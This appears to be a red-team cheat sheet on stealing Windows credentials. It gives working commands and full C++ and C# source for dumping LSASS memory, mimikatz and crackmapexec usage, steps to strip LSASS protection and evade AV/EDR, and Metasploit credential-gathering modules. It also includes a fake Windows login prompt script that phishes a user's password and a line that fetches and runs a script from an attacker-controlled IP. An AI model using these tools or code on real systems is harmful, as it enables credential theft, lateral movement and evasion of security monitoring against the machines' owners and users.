

# Hunting Credentials Windows

# **Windows Credential Manager**

> Windows is using Credential Manager to digitally store various other 
credentials  these can be passwords for accessing remote computers, websites, RDP credentials in the TERMSRV/hostname1 format
> 

### Exploitation Tools

- **Mimikatz**
    
    ```powershell
    .\mimikatz.exe
    privilege::debug
    sekurlsa::credman
    ```
    
    
    
- **Manual Powershell Script**
    
    ```powershell
    
    $ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
    $VaultObj = new-object Windows.Security.Credentials.PasswordVault
    $VaultObj.RetrieveAll() | foreach { $*.RetrievePassword(); $* }
    ```
    
    
    
- **Part of Lazagne Automation**
    
    Running [LaZagne](https://github.com/AlessandroZ/LaZagne) on the target host can retrieved all the passwords that are stored on the system in various formats (not only plain-text).
    

# LSASS

> LSASS  **Local Security Authority Subsystem Service** is the process on Microsoft Windows that handles all user authentication, password changes, creation of access tokens, and enforcement of security policies. This means the process stores multiple forms of hashed passwords, and in some instances even stores plaintext user passwords. .it is generally the best-known component of LSA. According to [Microsoft](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh994565(v=ws.11)) The system generates and stores a variety of credential materials in LSASS process memory 
credentials in memory for users with active Windows sessions once they  authenticated in an interactive manner `Logon RDP session` `Running a Process via RunAs` `Running an active Windows Service` `Running a scheduled task` `Running a batch job` `using remote administration tool to execute commands`  The purpose of storing these credentials is so that users can access network resources, file shares, mail, and more without having to re-authenticate to each individual service.
> 

### LSASS Stored Credentials LSASS

LSASS stores credential material in various forms, including:

- Reversibly encrypted plaintext
- Kerberos Tickets
- NT hashes
- LM hashes

### Exploitation Tools

- **Dump Lsass Process**
**Note** : `whoami /priv` 
Should have [Debug Programs] privileges
    - **rundll**
        
        ```powershell
        rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump $(Get-Process lsass).id C:\tmp\out.dmp full
        ```
        
    - **ProcDump**
        
        ```powershell
        procdump.exe -accepteula -ma lsass.exe out.dmp
        ```
        
    - **MimiKatz**
        - EXE
            
            ```
            sekurlsa::minidump lsass.DMP
            sekurlsa::logonPasswords
            ```
            
        - Invoke-MimiKatz
            
            ```powershell
            Invoke-Mimikatz -Commmand "sekurlsa::minidump""sekurlsa::logonPasswords"
            ```
            
        - sharpkatz
        - Meterpreter session
            
            ```powershell
            load_kiwi
            sekurlsa::minidump lsass.DMP
            sekurlsa::logonPasswords
            ```
            
- **Extract Hashes from dump file**
    - mimkatz
        
        ```bash
        sekurlsa::minidump lsass.DMP
        sekurlsa::logonPasswords
        ```
        
    - pypykatz
        
        ```bash
        pypykatz lsa minidump lsass.DMP
        ```
        
- **Remote the Process**
    - pypykatz
    - crackmapexec smb IP.IP.IP.IP -u -p --lsa
    - crackmapexec smb IP.IP.IP.IP -u -p -M lsassy
    - lsassy -d test.lab -u -p IP
        
        `lsassy -d test.lab -u testadmin -p Password123 192.168.0.76`
        
- **Automate the Process**
    - lsassy
    - pwdump
        
        ```powershell
        .\pwdump8.exe
        PwDump v8.2 - dumps windows password hashes - by Fulvio Zanetti & Andrea Petralia @ [http://www.blackMath.it](http://www.blackmath.it/)
        Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
        Guest:501:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
        DefaultAccount:503:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
        WDAGUtilityAccount:504:AAD3B435B51404EEAAD3B435B51404EE:DAE80FDFEAA573F9B42BD6522E4AD555
        student:1001:AAD3B435B51404EEAAD3B435B51404EE:F86CDE17931FCBC71129254ABF0E38D3
        a.adams:406FBF0A13439AAD5A4846F98981D946:RedAD19:REDAD19.LAB
        ```
        
    - full automation tools
        - mimikatz
        - secretrump
        - lazagne
        - pypykatz

## Note **Break Lsass Protection**

### Detected Activities

- Using the well Known Malicious Executables & tools such mimikatz.exe which have stored hashes in AVs and EDRs DB and Threat intel  and Known for it
- Using the `MiniDumpWriteDump`
function - which many older tools use - will most likely get detected 
via hooking.
- opening up a new handle to the lsass.exe 
process itself is also detected/blocked by many vendors nowadays.
- Dropping the memory dump of lsass.exe to disk is also an IoC, which is 
detected/blocked by some vendors. You may have success dumping the 
process, but the signature of the dump file can be detected, so that the
 file gets instantly deleted.
The memory dump  file signature detections can be bypassed via an option to drop the dump with an invalid signature.

### Bypasses

- **Remove the Process Protection with MIMIkatz**
    
    ```bash
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    After Finish 
    mimikatz #!processsprotect /process:lsass.exe
    mimikatz #!-
    
    ```
    
- Bypass Seginature Detection for Known Tools
    
    <aside>
     **`Note`** Using Reflection to Execute MEM Dumpers to Avoid Drop it on the DISK
    
    </aside>
    
    - RunDLL
    - Reflective DLL Injection
    - PIC the EXE
    - Convert to Shellcode + C# Reflective Execution
    - Write Your Own Code
        - C++
            
            ```cpp
            #include <windows.h>
            #include <dbghelp.h>
            #include <iostream>
            #include <tlhelp32.h>
            
            #pragma comment (lib, "dbghelp.lib")
            using namespace std;
            	int findMyProc(const char *procname) {
            
              HANDLE hSnapshot;
              PROCESSENTRY32 pe;
              int pid = 0;
              BOOL hResult;
            
              // snapshot of all processes in the system
              hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
              if (INVALID_HANDLE_VALUE == hSnapshot) return 0;
            
              // initializing size: needed for using Process32First
              pe.dwSize = sizeof(PROCESSENTRY32);
            
              // info about first process encountered in a system snapshot
              hResult = Process32First(hSnapshot, &pe);
            
              // retrieve information about the processes
              // and exit if unsuccessful
              while (hResult) {
                // if we find the process: return process ID
                if (strcmp(procname, pe.szExeFile) == 0) {
                  pid = pe.th32ProcessID;
                  break;
                }
                hResult = Process32Next(hSnapshot, &pe);
              }
            
              // closes an open handle (CreateToolhelp32Snapshot)
              CloseHandle(hSnapshot);
              return pid;
            }
            int main() {
            	HANDLE outFile = CreateFile((LPCTSTR)"C:\\temp\\lsass3.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
            	int lsassPID = findMyProc("lsass.exe");
            	HANDLE lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
            	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
            
            	if (isDumped) {
            		cout << "[+] lsass dumped successfully!" << endl;
            	}
            
                return 0;
            }
            //x86_64-w64-mingw32-g++ -O2 lsass2.cpp -o hacknotadmin.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
            ```
            
            ```cpp
            /*
             * hack.cpp - Dump lsass without mimikatz. C++ implementation
             * @cocomelonc
             * https://cocomelonc.github.io/tutorial/2023/05/11/malware-tricks-28.html
            */
            #include <windows.h>
            #include <stdio.h>
            #include <stdlib.h>
            #include <string.h>
            #include <tlhelp32.h>
            #include <dbghelp.h>
            #pragma comment (lib, "dbghelp.lib")
            
            int findMyProc(const char *procname) {
            
              HANDLE hSnapshot;
              PROCESSENTRY32 pe;
              int pid = 0;
              BOOL hResult;
            
              // snapshot of all processes in the system
              hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
              if (INVALID_HANDLE_VALUE == hSnapshot) return 0;
            
              // initializing size: needed for using Process32First
              pe.dwSize = sizeof(PROCESSENTRY32);
            
              // info about first process encountered in a system snapshot
              hResult = Process32First(hSnapshot, &pe);
            
              // retrieve information about the processes
              // and exit if unsuccessful
              while (hResult) {
                // if we find the process: return process ID
                if (strcmp(procname, pe.szExeFile) == 0) {
                  pid = pe.th32ProcessID;
                  break;
                }
                hResult = Process32Next(hSnapshot, &pe);
              }
            
              // closes an open handle (CreateToolhelp32Snapshot)
              CloseHandle(hSnapshot);
              return pid;
            }
            
            // set privilege
            BOOL setPrivilege(LPCTSTR priv) {
              HANDLE token;
              TOKEN_PRIVILEGES tp;
              LUID luid;
              BOOL res = TRUE;
            
              if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
            
              tp.PrivilegeCount = 1;
              tp.Privileges[0].Luid = luid;
              tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
            
              if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
              if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
              printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
              return res;
            }
            
            // minidump lsass.exe
            BOOL createMiniDump() {
              bool dumped = FALSE;
              int pid = findMyProc("lsass.exe");
              HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
              HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
              if (ph && out != INVALID_HANDLE_VALUE) {
                dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
                printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
              } 
              return dumped; 
            }
            
            int main(int argc, char* argv[]) {
              if (!setPrivilege(SE_DEBUG_NAME)) return -1;
              if (!createMiniDump()) return -1;
              return 0;
            }
            //x86_64-w64-mingw32-g++ -O2 lsass.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
            ```
            
        - C#
            
            ```csharp
            using System;
            using System.Collections.Generic;
            using System.Linq;
            using System.Text;
            using System.Threading.Tasks;
            using System.Diagnostics;
            using System.IO;
            using System.Runtime.InteropServices;
            
            namespace MiniWriteDumpCS
            {
                internal class Program
                {
                    static int MiniDumpWithFullMemory = 2;
                    static UInt32 PROCESS_ALL_ACCESS = 0x001F0FFF;
            
                    [DllImport("Dbghelp.dll")]
                    static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId, IntPtr hFile, int DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);
            
                    [DllImport("kernel32.dll")]
                    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
                    static void Main(string[] args)
                    {
                        // Get the PID of lsass.exe
                        Process[] lsass = Process.GetProcessesByName("lsass");
                        int lsass_pid = lsass[0].Id;
                        Console.WriteLine($"Got lsass.exe PID: {lsass_pid}.");
            
                        // Get a handle on LSASS
                        IntPtr handle = OpenProcess(PROCESS_ALL_ACCESS, false, lsass_pid);
                        Console.WriteLine($"Got a handle on lsass.exe: {handle}.");
            
                        // Dump LSASS process to file
                        string filePath = "C:\\temp\\lsasscs.dmp";
                        FileStream dumpFile = new FileStream(filePath, FileMode.Create);
                        bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), MiniDumpWithFullMemory, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
                        if (dumped)
                        {
                            Console.WriteLine($"Dumped LSASS memory to {filePath}.");
                        }
                        else
                        {
                            Console.WriteLine($"Error dumping LSASS memory: {Marshal.GetLastWin32Error()}");
                        }
                    }
                }
            }
            ```
            
        - Use Different WinAPIs
            
            ```cpp
            #include <windows.h>
            #include <DbgHelp.h>
            #include <iostream>
            #include <TlHelp32.h>
            #include <processsnapshot.h>
            #pragma comment (lib, "Dbghelp.lib")
            
            using namespace std;
            
            // Buffer for saving the minidump
            LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
            DWORD bytesRead = 0;
            
            BOOL CALLBACK minidumpCallback(
            	__in     PVOID callbackParam,
            	__in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
            	__inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
            )
            {
            	LPVOID destination = 0, source = 0;
            	DWORD bufferSize = 0;
            
            	switch (callbackInput->CallbackType)
            	{
            		case IoStartCallback:
            			callbackOutput->Status = S_FALSE;
            			break;
            
            		// Gets called for each lsass process memory read operation
            		case IoWriteAllCallback:
            			callbackOutput->Status = S_OK;
            			
            			// A chunk of minidump data that's been jus read from lsass. 
            			// This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
            			// We will simply save it to dumpBuffer.
            			source = callbackInput->Io.Buffer;
            			
            			// Calculate location of where we want to store this part of the dump.
            			// Destination is start of our dumpBuffer + the offset of the minidump data
            			destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);
            			
            			// Size of the chunk of minidump that's just been read.
            			bufferSize = callbackInput->Io.BufferBytes;
            			bytesRead += bufferSize;
            			
            			RtlCopyMemory(destination, source, bufferSize);
            			
            			printf("[+] Minidump offset: 0x%x; length: 0x%x\n", callbackInput->Io.Offset, bufferSize);
            			break;
            
            		case IoFinishCallback:
            			callbackOutput->Status = S_OK;
            			break;
            
            		default:
            			return true;
            	}
            	return TRUE;
            }
            
            int main() {
            	DWORD lsassPID = 0;
            	DWORD bytesWritten = 0;
            	HANDLE lsassHandle = NULL;
            	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
            	LPCWSTR processName = L"";
            	PROCESSENTRY32 processEntry = {};
            	processEntry.dwSize = sizeof(PROCESSENTRY32);
            
            	// Get lsass PID
            	if (Process32First(snapshot, &processEntry)) {
            		while (_wcsicmp(processName, L"lsass.exe") != 0) {
            			Process32Next(snapshot, &processEntry);
            			processName = processEntry.szExeFile;
            			lsassPID = processEntry.th32ProcessID;
            		}
            		printf("[+] lsass PID=0x%x\n",lsassPID);
            	}
            
            	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
            	
            	// Set up minidump callback
            	MINIDUMP_CALLBACK_INFORMATION callbackInfo;
            	ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
            	callbackInfo.CallbackRoutine = &minidumpCallback;
            	callbackInfo.CallbackParam = NULL;
            
            	// Dump lsass
            	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);
            
            	if (isDumped) 
            	{
            		// At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
            		printf("\n[+] lsass dumped to memory 0x%p\n", dumpBuffer);
            		HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
            	
            		// For testing purposes, let's write lsass dump to disk from our own dumpBuffer and check if mimikatz can work it
            		if (WriteFile(outFile, dumpBuffer, bytesRead, &bytesWritten, NULL))
            		{
            			printf("\n[+] lsass dumped from 0x%p to c:\\temp\\lsass.dmp\n", dumpBuffer, bytesWritten);
            		}
            	}
            	
            	return 0;
            }
            ```
            
            ```cpp
            #include "stdafx.h"
            #include <windows.h>
            #include <DbgHelp.h>
            #include <iostream>
            #include <TlHelp32.h>
            #include <processsnapshot.h>
            #pragma comment (lib, "Dbghelp.lib")
            
            using namespace std;
            
            BOOL CALLBACK MyMiniDumpWriteDumpCallback(
            	__in     PVOID CallbackParam,
            	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
            	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
            )
            {
            	switch (CallbackInput->CallbackType)
            	{
            	case 16: // IsProcessSnapshotCallback
            		CallbackOutput->Status = S_FALSE;
            		break;
            	}
            	return TRUE;
            }
            
            int main() {
            	DWORD lsassPID = 0;
            	HANDLE lsassHandle = NULL;
            	HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
            	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
            	PROCESSENTRY32 processEntry = {};
            	processEntry.dwSize = sizeof(PROCESSENTRY32);
            	LPCWSTR processName = L"";
            
            	if (Process32First(snapshot, &processEntry)) {
            		while (_wcsicmp(processName, L"lsass.exe") != 0) {
            			Process32Next(snapshot, &processEntry);
            			processName = processEntry.szExeFile;
            			lsassPID = processEntry.th32ProcessID;
            		}
            		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
            	}
            
            	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
            
            	HANDLE snapshotHandle = NULL;
            	DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
            	MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
            	ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
            	CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
            	CallbackInfo.CallbackParam = NULL;
            
            	PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);
            
            	BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);
            
            	if (isDumped) {
            		cout << "[+] lsass dumped successfully!" << endl;
            	}
            
            	PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
            	return 0;
            }
            ```
            
- Hooking is therefore bypassed via direct 
syscall usage and/or dynamic invokation of Win32 API’s. 
Outflank already released a LSASS dumping tool 
called ‣  
This tool demonstrates some techniques such as  the use of direct System Calls API unhooking and combine The result of that not touching disk and evading AV/EDR monitored user-mode API calls and Write Output on 
`C:\Temp\Dumpert.dmp`  
Developed three years ago, so that’s also nothing *new*. But the newer tools use syscalls retrieved via [Syswhispers2](https://github.com/jthuraisamy/SysWhispers2) which makes them up to date.
    
    ```powershell
    Outflank-Dumpert.exe
    ```
    
    
    
    
    

- [Handlekatz](https://github.com/codewhitesec/HandleKatz) and [NanoDump](https://github.com/helpsystems/nanodump) bypass theese detection measures, which makes them state of the art 
from my point of view.
Nanodump ⇒ done execpt PPLDUMP (patched),ssp
SharpDUMP
    
    Mini-Dump from @mattifestation ([https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1](https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1)
    ).
    
    SharpDump
    
    `Import the module`     `Import-Module .\OutMiniDump.ps1`
    
    `Then run the command`    `Get-Process lsass | Out-Minidump`
    
    Bypass Protection
    
    [https://research.securitum.com/1886-2/](https://research.securitum.com/1886-2/)
    
    [https://emptydc.com/2022/06/08/windows-credential-dumping/](https://emptydc.com/2022/06/08/windows-credential-dumping/)
    
    [Credential Dumping](https://dmcxblue.gitbook.io/red-team-notes/untitled-1/credential-dumping)
    
    [Attacks & Defenses: Dumping LSASS W/ No Mimikatz | White Oak](https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/)
    
    [Credential Access](https://dmcxblue.gitbook.io/red-team-notes/untitled-1)
    
    
    

[https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/](https://s3cur3th1ssh1t.github.io/Reflective-Dump-Tools/)

MSSQL
[https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)

# Auto login

> Autologon helps you to conveniently 
customize the built-in Autologon mechanism for Windows. Rather than 
waiting for a user to enter their name and password, Windows will 
automatically log in to the required user using the credentials you 
submit with Autologon, which are encrypted in the registry.
*In this post, we will try to dump the stored autologin credentials with the help of two different tools.*
> 

Let’s see the settings for autologin, first, you need to access the User Accounts Control Panel using **netplwiz** command inside the run prompt.


`.\[DecryptAutoLogon](https://github.com/securesean/DecryptAutoLogon/blob/main/DecryptAutoLogon/bin/Release/DecryptAutoLogon.exe).exe`

[https://www.nirsoft.net/toolsdownload/netpass-x64.zip](https://www.nirsoft.net/toolsdownload/netpass-x64.zip)

# APPLICATION Abuse

`use post/windows/gather/credentials/winscp`

`use post/windows/gather/credentials/vnc`

`use post/multi/gather/pidgin_cred`

`use post/windows/gather/creddtnitals/heidisql`

`use post/multi/gather/filezilla_client_cred`

`use post/windows/gather/credentials/coreftp`

`usemodule credentials/sessiongopher`

`use post/windows/gather/credetnials/ftpnavigator`

`use post/windows/wlan/wlan_profile`

# Phishing The Credentials

`SharpLocker.exe`

- FakeLogonScreen
    
    [https://github.com/bitsadmin/fakelogonscreen.git](https://github.com/bitsadmin/fakelogonscreen.git)
    
    
    
    
    
    Credentials Found on  `%LOCALAPPDATA%\Microsoft\user.db`
    
    
    

- Invoke-LoginPrompt
    
    ```powershell
    IWR("http://IP/tools/Invoke-LoginPrompt.ps1")|IEX
    Invoke-LoginPrompt.ps1
    #Credentials Found on C:\Users\User\AppData\Roaming\cred.tmp
    ```
    
    ```powershell
    
    <#
    Edited From Nishang By ME
    
    #>
    
    function Invoke-LoginPrompt{
        $cred = $Host.ui.PromptForCredential("Windows Security", "Please enter user credentials", "$env:userdomain\$env:username","")
        $username = "$env:username"
        $domain = "$env:userdomain"
        $full = "$domain" + "\" + "$username"
        $password = $cred.GetNetworkCredential().password
        Add-Type -assemblyname System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
        while($DS.ValidateCredentials("$full", "$password") -ne $True){
            $cred = $Host.ui.PromptForCredential("Windows Security", "Invalid Credentials, Please try again", "$env:userdomain\$env:username","")
            $username = "$env:username"
            $domain = "$env:userdomain"
            $full = "$domain" + "\" + "$username"
            $password = $cred.GetNetworkCredential().password
            Add-Type -assemblyname System.DirectoryServices.AccountManagement
            $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
            $DS.ValidateCredentials("$full", "$password") | out-null
            }
          $credsfile=  [Environment]::GetFolderPath('ApplicationData')+ "\cred.tmp"
         $output = $cred.GetNetworkCredential() | select-object UserName, Domain, Password >$credsfile
         $output
    }
    ```
    

`use post/windows/gather/phish_windows_credentials`

`usemodule collection/toasted`

# LAPS

> Local Admins Passwords was being Saved in SYSVOL Encrypted Not Full Clear text to be used in group policy editions ****Due to Key Leakage This Encrypted Password Could Be Cracked So Microsoft Developed **LAPS
Local Administrative Password Solution** To  Generate Temporarily Changed Passwords to  Local Admin Accounts with for AD-Computer Which LAPS Enabled on it to be alternative for Previous mistake that password is readable by  some AD Users Have `All Extended Rights` 
`ms-Mcs-AdmPwd` is attribute to Obtain That make  AD User Read LAPS Accounts’ Passwords
> 
- Enable LAPS AD-Computer
    
    [](https://4sysops.com/archives/how-to-install-and-configure-microsoft-laps/)
    
    [Configure Windows LAPS step by step](https://www.alitajran.com/windows-laps/)
    
- Enumerate LAPS Readers Group Name and Joined Users
    
    
    
    
    
- Find AD Computer that Local Admin Password on it is Controlled by LAPS
    
    ```powershell
    **Get-LAPSComputers**
    ```
    
- Use the Found Users to  Read Local Admin  Password on The Found  AD-Computer
    
    